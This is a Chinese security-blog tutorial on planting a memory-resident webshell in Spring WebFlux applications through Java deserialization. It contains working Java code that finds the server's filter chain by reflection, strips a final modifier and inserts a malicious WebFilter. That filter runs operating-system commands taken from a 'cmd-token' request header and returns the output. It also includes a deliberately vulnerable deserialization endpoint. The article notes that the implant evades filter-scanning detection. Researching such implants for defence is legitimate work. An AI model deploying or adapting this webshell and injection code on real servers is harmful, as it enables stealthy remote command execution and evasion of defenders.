# WebFlux应用一次反序列化注入Spring WebFlux内存马 - 先知社区

WebFlux应用一次反序列化注入Spring WebFlux内存马

- - -

## 前言

在Spring框架中除了常见的Controller型和Intercepter型的内存马，这里我们来学习一下WebFlux型的内存马

对于WebFlux型的内存马来讲，也算是一个变相的Filter类型的内存马，但是他的filters并没有存放在常见的filter集合中，使用前面的一些根据遍历所有的filter来判断源文件是否存在的方式并不能够监测到

## 前置

### WebFlux

> Spring 框架中包含的原始 Web 框架 Spring Web MVC 是专门为 Servlet API 和 Servlet 容器构建的。响应式堆栈 Web 框架 Spring WebFlux 是在 5.0 版本中添加的。它完全非阻塞，支持Reactive Streams背压，运行在Netty、Undertow、Servlet容器等服务器上。

首先创建一个简单的webflux demo，看看它的执行流程

引入spring-webflux依赖

```plain
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-webflux</artifactId>
</dependency>
```

创建一个handler类，进行请求的处理

```plain
package com.example.springboottest.webflux.hello;

import org.springframework.http.MediaType;
import org.springframework.stereotype.Component;
import org.springframework.web.reactive.function.BodyInserters;
import org.springframework.web.reactive.function.server.ServerRequest;
import org.springframework.web.reactive.function.server.ServerResponse;
import reactor.core.publisher.Mono;

@Component
public class GreetingHandler {

    public Mono<ServerResponse> hello(ServerRequest request) {
        return ServerResponse.ok().contentType(MediaType.TEXT_PLAIN)
                .body(BodyInserters.fromValue("Hello Webflux!"));
    }
}
```

创建一个Controller

```plain
package com.example.springboottest.webflux.hello;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.http.MediaType;
import org.springframework.web.reactive.function.server.RequestPredicates;
import org.springframework.web.reactive.function.server.RouterFunction;
import org.springframework.web.reactive.function.server.RouterFunctions;
import org.springframework.web.reactive.function.server.ServerResponse;

@Configuration
public class GreetingRouter {

    @Bean
    public RouterFunction<ServerResponse> route(GreetingHandler greetingHandler) {
        return RouterFunctions.route(RequestPredicates.GET("/hello").and(RequestPredicates.accept(MediaType.TEXT_PLAIN)), greetingHandler::hello);
    }
}
```

创建了一个`/hello`的路由，所有访问/hello资源的请求都会通过前面创建的handler进行处理

通过在`DispatcherHandler#invokeHandler`中根据请求uri分发handler

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225519-acd0fbd4-78c6-1.png)

而对于在WebFlux中的安全性，也就是鉴权方式，主要是依赖于`WebFilter`

[https://docs.spring.io/spring-security/reference/reactive/configuration/webflux.html](https://docs.spring.io/spring-security/reference/reactive/configuration/webflux.html)

通过`@EnableWebFluxSecurity`注解配置

```plain
@Configuration
@EnableWebFluxSecurity
public class HelloWebfluxSecurityConfig {

    @Bean
    public MapReactiveUserDetailsService userDetailsService() {
        UserDetails user = User.withDefaultPasswordEncoder()
            .username("user")
            .password("user")
            .roles("USER")
            .build();
        return new MapReactiveUserDetailsService(user);
    }
}
```

### WebFilter

在webflux中存在有两种类型的过滤器

1.  WebFilter
2.  HandlerFilterFunction

这里我们创建一个简单的WebFilter，通过实现`org.springframework.web.server.WebFilter`接口，并重写filter方法

```plain
package com.example.springboottest.webflux.hello;

import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import reactor.core.publisher.Mono;

@Component
public class MyWebFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange serverWebExchange, WebFilterChain webFilterChain) {
        System.out.println("MyWebFilter.....");
        return webFilterChain.filter(serverWebExchange);
    }
}
```

在调用一个Mono的subscribe方法进行订阅的时候，首先将会被filter过滤器进行拦截处理，之后才会被正常放行

```plain
filter:13, MyWebFilter (com.example.springboottest.webflux.hello)
invokeFilter:127, DefaultWebFilterChain (org.springframework.web.server.handler)
lambda$filter$0:121, DefaultWebFilterChain (org.springframework.web.server.handler)
get:-1, 1931979761 (org.springframework.web.server.handler.DefaultWebFilterChain$$Lambda$634)
subscribe:44, MonoDefer (reactor.core.publisher)
subscribe:4150, Mono (reactor.core.publisher)
```

## 内存马

### 确定位置

根据前面的经验，对于内存马的注入，主要是能够动态的创建一个路由，能够处理我们自定义的请求

主要是有两种方法

1.  通过提供的API进行调用，进而能够动态的创建内存马，例如Spring Controller的内存马，主要就是通过`RequestMappingHandlerMapping#registerMapping`方法进行动态的注册
2.  通过反射的方法进行获取类似`servlets` or `filters`等存放servlet / filter的属性，之后将我们自定义的类添加进入这个属性中

我们这里选择使用第二种方法进行内存马的编写

我们需要找到在Spring WebFlux中，将WebFilter的实现类存在在Thread中的哪一个位置中，我们这里使用[GitHub - c0ny1/java-object-searcher: java内存对象搜索辅助工具](https://github.com/c0ny1/java-object-searcher)进行寻找

首先是通过前面实例的方法创建一个WebFilter的实现类`MyWebFilter`

```plain
@Component
public class MyWebFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange serverWebExchange, WebFilterChain webFilterChain) {
        System.out.println("MyWebFilter.....");
        return webFilterChain.filter(serverWebExchange);
    }
}
```

紧接着使用工具的描述方法进行筛选

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225532-b4f27ac2-78c6-1.png)

我们这里需要寻找的是我们创建的MyWebFilter类，所以将Keyword设置为

```plain
keys.add(new Keyword.Builder().setField_type("MyWebFilter").build());
```

最终能够确定的位置在

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225539-b8eb88b2-78c6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225545-bc92ef6e-78c6-1.png)

### 编写webshell

为了确定filter的调用流程，我这里在前面创建了`MyWebFilter`之后创建了另一个`TestWebFilter`观察filter chain的调用过程

在进行初始化的时候，通过`DefaultWebFilterChain`类的构造方法进行chain的创建

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225552-c0d55274-78c6-1.png)

其中`DefaultWebFilterChain`是`WebFilterChain`的一个实现类

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225600-c54453be-78c6-1.png)

> Each instance of this class represents one link in the chain. The public constructor DefaultWebFilterChain(WebHandler, List) initializes the full chain and represents its first link.

它的每一个实例都是一个chain的一个link

在前面我们想要选用第二种方法进行filter添加，因为这个原因导致不能够直接进行添加

在[https://xz.aliyun.com/t/11331有描述](https://xz.aliyun.com/t/11331%E6%9C%89%E6%8F%8F%E8%BF%B0)

而具体在他的构造方法中创建这个chain是通过`initChain`方法进行初始化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225612-ccac58e0-78c6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225619-d0885dc4-78c6-1.png)

通过遍历存在的每一个filters，创建出一个filter chain来

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225627-d550eb78-78c6-1.png)

而在filter的调用过程中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225633-d92b73e4-78c6-1.png)

主要是通过判断`currentFilter`和`chain`的属性值来判断该filter是否可用

进而通过调用`invokeFilter`方法进行调用，也即是调用每一个`WebFilter`实现类的`filter`方法

在每一个filter类中都会返回一个`return webFilterChain.filter(serverWebExchange);`，这是为了将请求传递给chain中的下一个filter处理

同时将`currentFilter`和`chain`属性置为下一个filter的相应对象

上面就是创建两个WebFilter实现类，以及调用这两个filter类的流程

根据前面找到的chain在线程中的位置，通过反射进行获取

```plain
Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread thread : threads) {
                if (thread.getClass().getName().contains("NettyWebServer")) {
                    // 获取NettyWebServer
                    NettyWebServer this$0 = (NettyWebServer) getField(thread, "this$0");
                    // 获取ReactorHttpHandlerAdapter
                    ReactorHttpHandlerAdapter handler = (ReactorHttpHandlerAdapter) getField(this$0, "handler");
                    // 获取WebServerManager$DelayedInitializationHttpHandler
                    Object httpHandler = getField(handler, "httpHandler");
                    // 获取HttpWebHandlerAdapter
                    Object delegate = getField(httpHandler, "delegate");
                    // 获取ExceptionHandlingWebHandler
                    Object delegate1 = getField(delegate, "delegate");
                    // 获取FilteringWebHandler
                    Object delegate2 = getField(delegate1, "delegate");
                    // 获取DefaultWebFilterChain
                    DefaultWebFilterChain chain = (DefaultWebFilterChain) getField(delegate2, "chain");
```

根据前面提到的，直接反射修改`chain#allFilters`是不能够进行filter链的调用的，我们在跟进了filter chain的创建流程，可以知道其是通过`DefaultWebFilterChain`的构造方法，进而通过`initChain`形成了链子

我们这里可以通过构造一个新的`DefaultWebFilterChain`对象，之后将新构建的对象反射写入到`FilteringWebHandler`类对象的`chain`属性中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225642-deabd2fa-78c6-1.png)

`DefaultWebFilterChain`类存在有三个不同的重载

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101225648-e1f03e1a-78c6-1.png)

其中第一个是private方法，是用来创建chain的中间结点，第二个是一个public方法，在FilteringWebHandler构造方法中创建chain也是用的这个构造方法，我们也同样使用这个方法

该构造方法需要两个参数，`handler` and `filters`

-   handler: 我们可以从线程中从chain中获取原始的handler
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231101225657-e718725e-78c6-1.png)
    

-   filters: 我们的目的就是添加一个我们自定义的filter，这里我们获取原始的filters(不影响业务)，之后创建一个新的List集合之后将原始的filters和我们自定义的filter添加进入

```plain
// 获取DefaultWebFilterChain中的handler属性
Object handler1 = getField(chain, "handler");
// 获取原始chain中的filters
List<WebFilter> filters = chain.getFilters();
// 创建自制的filter并添加进入newFilters集合中
ArrayList<WebFilter> newFilters = new ArrayList<>(filters);
WebFilter springWebFlux = new SpringWebFlux();
newFilters.add(springWebFlux);

// 模拟chain的初始化流程，创建一个包含恶意filter的chain
DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler1, newFilters);
// 反射将newChain替换FilteringWebHandler的chain属性
Field fieldChain = FilteringWebHandler.class.getDeclaredField("chain");
Field fieldModifiers = Field.class.getDeclaredField("modifiers");
fieldChain.setAccessible(true);
fieldModifiers.setAccessible(true);
// 去除final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & ~Modifier.FINAL);
fieldChain.set(delegate2, newChain);
// 还原final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & Modifier.FINAL);
```

### 实例

首先在webflux应用中引入了存在CC利用链的依赖

```plain
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

创建一个POST /vuln路由，用来接收Base64编码的序列化数据

```plain
@Bean
public RouterFunction<ServerResponse> routeVuln(GreetingHandler greetingHandler) {
    return RouterFunctions.route(RequestPredicates.POST("/vuln").and(RequestPredicates.accept(MediaType.APPLICATION_FORM_URLENCODED)), greetingHandler::vuln);
}
```

一个处理请求进行反序列化调用的handler

```plain
public Mono<ServerResponse> vuln(ServerRequest request) {
        return request.bodyToMono(String.class)
                .flatMap(data -> {
                    try {
                        // 输出接收到的data参数值
                        System.out.println("Received data: " + data.substring(3));
                        // 进行Base64解码
                        byte[] bytes = Base64.getDecoder().decode(URLDecoder.decode(data.substring(3)));

                        // 创建输入流并进行反序列化
                        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
                        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
                        Object deserializedObject = objectInputStream.readObject();

                        return ServerResponse.ok().build(); // 返回一个表示处理成功的响应
                    } catch (Exception e) {
                        e.printStackTrace();
                        return ServerResponse.status(500).build(); // 返回一个表示处理失败的响应
                    }
                });
```

自定义的filter的逻辑

1.  通过从`ServerWebExchange`中获取请求头`cmd-token`进行执行命令的传入
2.  通过response.writeWith方法传入一个`Publisher`进行命令直接结果的返回

```plain
@Override
    public reactor.core.publisher.Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        try {
            String cmd = exchange.getRequest().getHeaders().get("cmd-token").get(0);
            if (cmd != null) {
                try {
                    ProcessBuilder processBuilder;
                    String o = "";
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        processBuilder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                    } else {
                        processBuilder = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                    }
                    Scanner scanner = new Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                    o = scanner.hasNext() ? scanner.next() : o;
                    scanner.close();
                    System.out.println(o);
                    ServerHttpResponse response = exchange.getResponse();
                    HttpHeaders headers = response.getHeaders();
                    headers.add(HttpHeaders.CONTENT_TYPE, "text/plain");
                    response.setStatusCode(HttpStatus.OK);
                    DataBuffer buffer = response.bufferFactory().wrap(o.getBytes(StandardCharsets.UTF_8));
                    return response.writeWith(Mono.just(buffer)).then(chain.filter(exchange));
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }catch (Exception e) {
            e.printStackTrace();
        }
        // turn back
        return chain.filter(exchange);
    }
```

启动Spring webflux应用

初始时只存在有两个filter

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101231239-18d02ef2-78c9-1.png)

进行反序列化注入内存马，动态增加filter

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101231255-227058e2-78c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101231310-2b21c93a-78c9-1.png)

能够成功的动态增加了我们自定义的filter -- SpringWebFilter

同时也能够通过传参返回命令执行结果

